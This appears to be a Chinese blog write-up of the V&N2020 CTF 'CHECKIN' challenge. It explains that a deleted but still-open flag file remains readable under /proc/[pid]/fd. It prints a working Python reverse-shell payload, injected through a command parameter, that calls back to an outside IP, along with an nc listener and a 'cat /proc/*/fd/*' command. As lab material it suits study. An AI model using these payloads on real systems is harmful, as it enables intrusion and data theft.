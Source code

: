 ```yaml
---
title: '[V&N2020 公开赛]CHECKIN'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-08-17 15:34:29
authorLink:
tags: 弹shell
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1094117.jpg
---
```

整理源码得

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200817153855.png)

shell()中有命令执行函数，可惜没有回显。

知识点
在linux里如果打开了一个文件而没有关闭，就算删除了文件（即rm -f flag.txt）在/proc/[pid]/fd下还是会存在,所以我们还是可以看flag,txt的。

网上找的一个弹shell payload的总结：
https://www.cnblogs.com/20175211lyz/p/12397933.html

随意监听一个端口： nc -lvp 1234

payload：shell?c=python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('174.0.63.198',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i'])

然后就可以命令执行了。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/hadheah.jpg)

查看/proc/[pid[/fd 里的文件
由于有很多[pid]我们可以直接用*来代替，省的一步一步去找

cat /proc/*/fd/*

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/hbdthsdh.jpg)